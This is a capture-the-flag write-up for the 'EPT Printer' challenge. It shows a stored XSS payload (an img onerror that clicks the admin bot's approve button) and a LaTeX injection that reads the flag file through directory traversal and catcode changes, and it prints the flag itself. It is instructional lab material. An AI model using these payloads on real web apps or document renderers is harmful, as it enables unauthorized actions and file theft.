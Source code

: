 # Writeup
author: th@m456 @ FesseMisk

## EPT Printer
![alt text](image.png)

### Solution
This is an onsite challenge where we need to print out the flag on an actual printer. In order to do this, we first need to get approval by a bot reviewing "approval applications".

First, we open the link provided by the EPT Box. 
![alt text](image-1.png)
From here, we must log in with our Discord user. Our Discord user is connected to a personal ID card, which is required for solving the challenge at a later stage.

After logging in, we can find an "approval application" form from the menu in the top right.
![alt text](image-2.png)

By finding hints in the attached source code, I understand that we must trick the bot to automatically click "accept" on our application.

```bash
/webapp/app/templates$ cat application.html

(...)
<!-- Make it easy for the admin to click() the button by placing it at the top -->
(...)
```

The bot checks the incoming applications every 30 seconds, revealed in a `bot.py` file.

```python
APPLICATIONS_CHECK_FREQUENCY_SECONDS = int(
    os.getenv("APPLICATIONS_CHECK_FREQUENCY_SECONDS", 30)
```

I am able to find out that the application form is susceptible to XSS, by attempting this line:

```html
<script>alert(XSS vulnerable!)</script>>
```

We can use XSS to make the bot accept our application upon review with this code:

```html
<img src=x onerror="document.getElementById('submit').click();">
```

![alt text](image-3.png)

After waiting for >30 seconds, we are now approved! Now we are able to print stuff by using the `Printing Form`.

![alt text](image-4.png)

In the source code, we find `template.tex`, indicating that we must write our code in Latex format in order to get the flag. In the template file, we can also see what commands are set, and where our input will be read.

```tex
$ cat template.tex
\documentclass{article}
\usepackage{graphicx}
\usepackage{eso-pic}

\linespread{1.5}
\setlength{\parindent}{0pt}
\pagenumbering{gobble}
\title{EPT}
\author{klarz}

\AddToShipoutPictureBG*{
  \AtPageLowerLeft{
    \includegraphics[width=\paperwidth,height=\paperheight,keepaspectratio]{ept.png}
  }
}

\begin{document}

\null\hfill\begin{tabular}[t]{l@{}}
  \textbf{EPT CTF 2024} \\
  \textit{\today}
\end{tabular}

{\noindent\Large\bfseries\sffamily\color{red}{<PRINT_JOB_TITLE>}}
\vspace{3mm}

<PRINT_JOB_CONTENT>

\end{document}
```

The attached source code also has a placeholder for flag.txt, so I know the filepath and name of the flag file is `/webapp/flag.txt`. The printing folder is at `/webapp/app/printing`, so we must do some traversing in our code.

The printing job is only executed if there are no errors in the Latex code. Many of my attempts gave an error indicating a math expression! So I had to ask GPT;

```
In LaTeX, the underscore character _ is a special character used for subscripts in mathematical expressions. Because of this, using an underscore directly in text can cause errors or unexpected behavior. To include an underscore in text, you need to escape it or change its category code.
```

Ahaaaaa! And the flag often contains an underscore!

After several attempts with errors or only printing the filepath, we successfully get the contents of the flag with this code, where we change the category code of underscore (and %, but that probably didn't matter):

```latex
\begingroup
\catcode`\%=12
\catcode`\_=12
\input{../../flag.txt}
\endgroup
```

![alt text](image-5.png)

I forgot to take a picture of the printout... but at least got the flag!

```text
EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}
```

